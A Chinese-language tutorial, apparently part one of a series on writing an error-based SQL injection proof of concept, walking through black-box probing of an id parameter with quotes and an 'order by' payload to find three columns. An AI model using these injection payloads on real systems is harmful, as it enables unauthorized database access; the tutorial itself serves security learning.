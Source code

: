# 基于报错的 SQL 注入 PoC 编写1



# 引子：



# 漏洞分析

## 黑盒测试：

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhxp5oot0pj30ik0ca3ze.jpg)


id=1,正常返回数据

---

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhxodrofz3j312q0fi76w.jpg)

输入单引号，发现报错。
说明单引号进入到了sql语句中，并影响了正常sql语句的执行。

---

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhxoec9pewj30lu0f6q4d.jpg)

输入两个单引号，正常返回数据。
加上报错信息中的提示，猜测sql语句为:


```
input = 1
$sql = 'select username,pwd from users where id = 'input' limit 0,1'
```




---

### order by:

```
input = 1' order by 1 --'
$sql = 'select username,pwd from users where id = '1' order by 1 --'' limit 0,1'

```

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhxorio92ij30m40eumyp.jpg)

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhxou5zwojj31dc0eqq5s.jpg)
知道字段为3.

